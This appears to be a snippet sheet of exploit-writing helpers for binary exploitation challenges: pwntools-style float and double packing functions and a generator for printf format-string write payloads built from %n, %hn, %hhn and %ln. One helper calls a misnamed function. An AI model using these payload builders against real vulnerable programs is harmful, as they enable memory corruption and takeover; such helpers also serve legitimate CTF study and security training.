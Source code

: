 # int_2_float

```python
def int_2_float(data):
    return str(struct.unpack('f', bytes(data))[0])

# optional
def write_8_bytes(data):
    r.sendline(int_to_float(data[:4]))
    r.sendline(int_to_float(data[4:]))
```

# int_2_double

```python
def to_double(data):
	return "%.800f " % unpack("<d", p64(data))
```

# format string buffer 

def fmt(prev, value, idx, byte=1):
	ln  = "%{}c%{}$ln"
	n   = "%{}c%{}$n"
	hn  = "%{}c%{}$hn"
	hhn = "%{}c%{}$hhn"

	op = {1:hhn, 2:hn, 4:n, 8:ln}
	offset = {1: 0x100, 2: 0x10000, 4:0x100000000, 8:0x10000000000000000}
	if value > prev:
		return op[byte].format(value-prev, idx)
	elif value == prev:
		if byte==1:
			return "%{}$hhn".format(idx)
		elif byte == 2:
			return "%{}$hn".format(idx)
		elif byte == 4:
			return "%{}$n".format(idx)
		elif byte == 8:
			return "%{}$ln".format(idx)
	else:
		return op[byte].format(value-prev+offset[byte], idx)

